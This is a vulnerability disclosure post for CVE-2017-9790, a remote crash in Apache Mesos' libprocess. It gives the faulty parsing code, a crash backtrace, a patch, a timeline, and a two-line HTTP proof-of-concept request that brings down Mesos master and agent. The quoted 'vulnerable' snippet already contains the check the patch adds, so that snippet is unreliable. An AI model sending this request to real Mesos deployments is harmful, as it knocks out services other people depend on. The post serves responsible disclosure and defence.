 ```yaml
---
title: "Denial of Service Vulnerability in Libprocess (CVE-2017-9790)"
header:
  overlay_image: /assets/images/cve-2017-9790/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Life is Strange Stills by Me"
excerpt: "A vulnerability in the libprocess dependency of Mesos allows a remote
attacker to cause a crash in any Mesos component that includes the library. The
bug resides in the libprocess message parsing functionality and causes the
application to crash when attempting to parse a zero length request path."
tags:
  - vulnresearch
  - mesos
  - denial-of-service
---
```


Severity: High (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H/E:H/RC:C)

Vendor: Apache Software Foundation

Versions Affected:
Apache Mesos <= 1.3.0

## Description

A vulnerability in the libprocess dependency of Mesos allows a remote attacker
to cause a crash in any Mesos component that includes the library. The bug
resides in the libprocess message parsing functionality and causes the
application to crash when attempting to parse a zero length request path.

The vulnerability affects the latest release (1.3.0) of Mesos as well as most
versions before. Importantly, it affects the Master and Agent services that are
exposed over the network. A malicious actor can easily deny allocation of
resources to applications with a single HTTP request to each component.

The bug is found in `parse()` at `libprocess/src/process.cpp` when attempting to
parse request paths. Particularly, the error occurs when trying to obtain
the substring of a zero length string in `request.url.path.substr(1, index)`.

```c
 793   // Now determine 'to'.
 794   size_t index = request.url.path.find('/', 1);
 795   index = index != string::npos ? index - 1 : string::npos;
 796
 797   // Decode possible percent-encoded 'to'.
 798   if (request.url.path.length() < 1) {
 799     return Failure("Request URL path is empty");
 800   }
 801   Try<string> decode = http::decode(request.url.path.substr(1, index));
 ```

A stack trace at the time of the crash is as follows:

```shell
terminate called after throwing an instance of 'std::out_of_range'
  what():  basic_string::substr: __pos (which is 1) > this->size() (which is 0)

Thread 1 "mesos-master" received signal SIGABRT, Aborted.
0x00007ffff1244428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
54    ../sysdeps/unix/sysv/linux/raise.c: No such file or directory.
(gdb) bt
#0  0x00007ffff1244428 in __GI_raise (sig=sig@entry=6) at ../sysdeps/unix/sysv/linux/raise.c:54
#1  0x00007ffff124602a in __GI_abort () at abort.c:89
#2  0x00007ffff1da484d in __gnu_cxx::__verbose_terminate_handler() () from /usr/lib/x86_64-linux-gnu/libstdc++.so.6
#3  0x00007ffff1da26b6 in ?? () from /usr/lib/x86_64-linux-gnu/libstdc++.so.6
#4  0x00007ffff1da2701 in std::terminate() () from /usr/lib/x86_64-linux-gnu/libstdc++.so.6
#5  0x00007ffff1da2919 in __cxa_throw () from /usr/lib/x86_64-linux-gnu/libstdc++.so.6
#6  0x00007ffff1dcb3f7 in std::__throw_out_of_range_fmt(char const*, ...) () from /usr/lib/x86_64-linux-gnu/libstdc++.so.6
#7  0x00007ffff6cf152a in std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >::_M_check (this=0x555555893048, __pos=1, __s=<optimized out>) at /usr/bin/../lib/gcc/x86_64-linux-gnu/5.4.0/../../../../include/c++/5.4.0/bits/basic_string.h:261
#8  std::__cxx11::basic_string<char, std::char_traits<char>, std::allocator<char> >::substr (this=0x555555893048, __pos=1, __n=18446744073709551615) at /usr/bin/../lib/gcc/x86_64-linux-gnu/5.4.0/../../../../include/c++/5.4.0/bits/basic_string.h:2295
#9  process::parse (request=...) at ../../../3rdparty/libprocess/src/process.cpp:798
#10 0x00007ffff6ca8c2c in process::ProcessManager::handle_harness (this=0x5555558558b0, request=0x555555892fc0) at ../../../3rdparty/libprocess/src/process.cpp:2875
#11 0x00007ffff6ca8549 in process::decode_recv_harness (data=<optimized out>, length=<optimized out>) at ../../../3rdparty/libprocess/src/process.cpp:855
#12 0x000055555556e08a in main (argc=<optimized out>, argv=<optimized out>) at ../../src/master/main.cpp:569
```

## Mitigation

The proposed fix for the error is to check that the length of the request path
is longer than 1 before performing the substring operation.

```diff
--- process.cpp    2017-06-25 22:21:42.413271006 +0000
+++ process-fixed.cpp    2017-06-25 21:45:40.993271006 +0000
807a808,811
>   if (request.url.path.length() < 1) {
>     return Failure("Request URL path is empty");
>   }
>
```

## Proof of Concept

Sending the following HTTP request causes Mesos master and agent to crash.

```
POST http://localhost
User-Agent:libprocess/

```

## Credit

This issue was discovered by Lyon Yang (@l0Op3r) and Jeremy Heng (@nn\_amon).

## Timeline

* 26 June 2017 - Discovery of the vulnerability.
* 27 June 2017 - Reporting of the vulnerability to security@apache.org.
* 28 June 2017 - Acknowledge of the vulnerability by the vendor.
* 10 July 2017 - CVE number assigned.
* 10 July 2017 - Git
  [commit](https://github.com/apache/mesos/commit/1da4e45b8077b9046bba1a7ed15be5e344a14a91)
  fixes the vulnerability upstream.
* 26 Sept 2017 - oss-security mailing list
  [email](http://seclists.org/oss-sec/2017/q3/540) sent by vendor.


